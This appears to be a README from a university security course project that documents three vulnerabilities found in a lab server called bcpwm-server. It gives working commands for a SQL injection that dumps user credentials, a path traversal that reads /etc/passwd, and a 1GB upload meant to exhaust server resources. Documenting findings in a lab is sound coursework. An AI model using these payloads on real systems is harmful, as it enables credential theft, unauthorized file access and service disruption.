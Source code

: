 # csci4271-proj2
- Let url be the path to access 443
- "enter" means putting the string in the search bar in web browser
- lines without "enter" is input in terminal

Running the program:
- git clone...
- ./install.sh
- make
- sudo ./bcpwm-server
- -> Change to another terminal, navigate to the same directory

Setting up the database
- Adding a user with hexmail = "1", hexpass = "2":
- enter "<url>/init_client/31/32"
- Confirm user added:
- enter "<url>/confirm-client/31/32/<token>"
- Adding a rule
- enter "<url>/post-rule/init/admin/1"

# Finding 1: Inject SQL to extract all user credentials
- Expected result: List of all users and passwords
- payload=$(echo "' UNION SELECT user, password FROM user_pw_table;--" | xxd -p)
- curl -k "<url>/init_client/${payload}/31"

# Finding 2: Inject '../' into the file path parameter to read unauthorized files
- Expected result: Contents of /etc/passwd
- payload=$(echo "../../etc/passwd" | xxd -p)
- enter "<url>/get_rule/${payload}"

# Finding 3: Generate a large file (1GB) and upload it
- Expected result: Server becomes unresponsive or logs indicate resource exhaustion.
- dd if=/dev/zero of=largefile.txt bs=1M count=1024
- curl -X POST -F "file=@largefile.txt" -k "<url>/post-rule/init/validsite/validuser"





